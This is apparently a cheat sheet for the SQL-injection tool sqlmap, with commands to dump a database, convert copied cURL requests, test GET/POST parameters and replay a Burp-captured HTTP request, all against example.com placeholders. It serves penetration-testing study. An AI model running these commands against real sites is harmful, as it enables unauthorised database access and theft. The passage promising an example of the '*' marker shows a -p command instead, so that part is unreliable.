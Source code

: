## Dump database

```
sqlmap -u "http://www.example.com/vuln.php?id=1" --dump
```

# **Building Attacks**

## **Curl Commands**

Use `Copy as cURL` feature from within the Network (Monitor) panel inside the Chrome, Edge, or Firefox Developer Tools. By pasting the clipboard content (`Ctrl-V`) into the command line, and changing the original command `curl` to `sqlmap`

```sql
sqlmap 'http://www.example.com/?id=1' -H 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:80.0) Gecko/20100101 Firefox/80.0' -H 'Accept: image/webp,*/*' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Connection: keep-alive' -H 'DNT: 1'
```

## **GET/POST Requests**

```
sqlmap 'http://www.example.com/' --data 'uid=1&name=test'
```

**Note:** `POST` parameters `uid` and `name` will be tested for SQLi vulnerability. For example, if we have a clear indication that the parameter `uid` is prone to an SQLi vulnerability, we could narrow down the tests to only this parameter using `-p uid`. Otherwise, we could mark it inside the provided data with the usage of special marker `*` as follows:

```
sqlmap 'http://www.example.com/' -p uid
```

## **Full HTTP Requests**

Capture a HTTP Request using BurpSuite and write it on a file

```bash
GET /?id=1 HTTP/1.1
Host: www.example.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:80.0) Gecko/20100101 Firefox/80.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
DNT: 1
If-Modified-Since: Thu, 17 Oct 2019 07:18:26 GMT
If-None-Match: "3147526947"
Cache-Control: max-age=0w
```
